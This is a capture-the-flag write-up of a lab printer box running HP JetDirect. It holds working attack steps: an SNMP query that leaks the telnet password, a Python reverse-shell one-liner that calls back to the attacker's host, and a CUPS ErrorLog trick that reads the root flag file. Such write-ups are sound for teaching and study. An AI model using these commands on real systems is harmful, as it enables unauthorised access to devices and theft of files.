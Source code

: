 # Recon

All-tcp scan:
```bash
nmap -p- -oA scans/nmap-alltcp 10.10.11.107
PORT   STATE SERVICE
23/tcp open  telnet
```

Detailed-scan:
```bash
nmap -p 23 -sVC -oA scans/nmap-tcpdetail 10.10.11.107
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270:
|     JetDirect
|     Password:
|   NULL:
|_    JetDirect
```

Udp scan revealed open port 191 with SNMP service.

Trying to enumerate SNMP didn't yield any promising findings:
```bash
snmpwalk -v 2c -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

While port 23 prompts for password:
```bash
nc -nv 10.10.11.107 23
(UNKNOWN) [10.10.11.107] 23 (telnet) open

HP JetDirect


Password: abcd
Invalid password
```

# Shell as lp

Searching online about HP JetDirect reveals a vulnerability
that leaks a password to printer server through SNMP.
To do that, we will use special MIB, as follows:

```bash
snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0

iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 
74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

To decode the hex values, we will use python script:
```python
import binascii
s='''50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22
23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79
82 83 86 90 91 94 95 98 103 106 111 114 115 11 9 122 123 126 130 131 134 135'''

print(binascii.unhexlify(s.replace(' ','').replace('\n', '')))
```

```bash
python script.py
b'P@ssw0rd@123!!123\x13\x91q\x81\x92"2Rbs\x03\x133CSs\x83\x94$4\x95\x05\x15Eu\x86\x16WGW\x98(8i\t\x19IY\x81\x03\x10a\x11\x11A\x15\x11\x91"\x121&\x13\x011\x13A5'
```

We will use found password (P@ssw0rd@123!!123) to log in to printer:
```bash
> nc -nv 10.10.11.107 23
(UNKNOWN) [10.10.11.107] 23 (telnet) open

HP JetDirect


Password: P@ssw0rd@123!!123

Please type "?" for HELP
>
```

It seems we can execute system commands with it, using "exec".
After trying common reverse shells, finally one works:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(
socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",9001));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
import pty; pty.spawn("/bin/bash")'
```

# Root flag

While enumerating for privilege escalation, we found service running
on local network:

```bash
netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN
tcp        0      0 10.10.11.107:23         10.10.14.8:54338        ESTABLISHED
tcp        0     14 10.10.11.107:36514      10.10.14.8:9001         ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN
```

To connect to it, we will use tunnelling with chisel, and visit it from
our attack machine.

There is a CUPS service internet page. By default it's run by root.
It reveals it's 1.6.1 version, which is vulnerable to LFI.

Since user can both view and modify error log location, we can first point
the location to the file we want to read, and then read our "error log".

First, on our printer server:
```bash
> exec cupsctl ErrorLog="/root/root.txt"
```

Then, from attack host:
```bash
curl http://localhost:631/admin/log/error_log\?
eb3055a86c1f09876e4c8dc3880ea43c
```
